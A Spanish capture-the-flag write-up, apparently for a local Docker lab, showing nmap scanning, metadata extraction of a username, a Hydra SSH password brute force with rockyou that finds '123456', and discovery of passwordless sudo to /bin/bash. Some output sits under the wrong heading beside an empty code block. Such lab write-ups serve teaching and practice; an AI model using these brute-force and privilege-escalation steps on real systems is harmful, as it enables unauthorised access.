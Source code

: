 #abusing-sudo #apport-cli #cms #password-brute-force #hashcat #joomla #mysql #wfuzz #subdomain-brute-force

![](../../../Images/Pasted%20image%2020241008070451.png)
# Enumeración

## Nmap

El escaneo de **nmap** nos enseña la existencia de un servicio SSH i un servicio HTTP funcionando.

```
> nmap --open --min-rate 10000 -Pn -n -oN scans/allTCPPorts $target

Nmap scan report for 172.17.0.2
Host is up (0.000013s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.48 seconds
```

```
> nmap -oN scans/targetedTCPPorts -sCV $target -p 22,80                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 07:06 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000054s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
|   256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
|_  256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.07 seconds
```

## Website (80 TCP Port)

En el sitio web nos encontramos con solo una imagen.

![](../../../Images/Pasted%20image%2020241008070656.png)

Descargamos la imagen en nuestro sistema de ataque y nos ponemos a investigarla.
# Foothold

Hacemos un stego con `steghide` y obtenemos algo de información no importante.

```
> steghide extract -sf imagen.jpeg
Enter passphrase:

wrote extracted data to "secreto.txt".

> cat secreto.txt

Sigue buscando, aquí no está to solución
aunque te dejo una pista....
sigue buscando en la imagen!!!
```

Luego examinamos los metadatos de la imagen y conseguimos dar con un nombre de usuario.

```
> exiftool imagen.jpeg

ExifTool Version Number         : 12.76
File Name                       : imagen.jpeg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2024:10:07 21:32:57+02:00
File Access Date/Time           : 2024:10:07 21:33:43+02:00
File Inode Change Date/Time     : 2024:10:07 21:32:57+02:00
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: borazuwarah ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207
```

Ahora, con el nombre de usuario podemos hacer fuerza bruta contra el servicio SSH con `hydra`.

```

```

Conseguimos acceder al sistema mediante SSH.

# Escalada de privilegios

Una vez dentro investigamos los comandos que podemos ejecutar con permisos `sudo`.

```
> hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-08 06:48:07
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-08 06:48:12
```

Nos encontramos que podemos ejecutar el binario`/bin/bash` con permisos ``sudo`` y sin contraseña.

```
borazuwarah@7dd5484e294a:~$ sudo -l
Matching Defaults entries for borazuwarah on 7dd5484e294a:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User borazuwarah may run the following commands on 7dd5484e294a:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash
```